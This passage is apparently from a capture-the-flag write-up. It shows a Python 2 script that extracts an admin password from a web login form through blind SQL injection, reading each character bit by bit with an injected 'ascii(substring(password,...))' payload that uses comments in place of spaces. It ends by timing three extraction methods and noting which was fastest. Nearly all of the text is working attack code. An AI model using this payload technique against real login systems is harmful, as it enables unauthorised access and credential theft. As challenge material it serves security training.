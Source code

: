```
    for index in range (1,33):
        print index,':',
        bit = []

        for i in range(8):
            username = "admin'/**/and/**/ascii(substring(password,"+str(index)+",1))/**/&/**/("+str(pow(2,7-i))+");'"
            data = {'username':username,'password':'admin'}
            r = requests.post(url,data=data)
            if r.text.find(u'ï»¿å¯ç éè') != -1:
                bit.append('1')
            else:
                bit.append('0')

        ch = chr(int(''.join(bit),2))
        print ch
        password.append(ch)

    print ''.join(password)


if __name__ == '__main__':
    import time
    time1_1 = time.time()
    method1()
    time1_2 = time.time()
    print time1_2-time1_1
    time2_1 = time.time()
    method2()
    time2_2 = time.time()
    print time2_2-time2_1
    time3_1 = time.time()
    method3()
    time3_2 = time.time()
    print time3_2-time3_1
```

最终本题，第二种方案速度最快
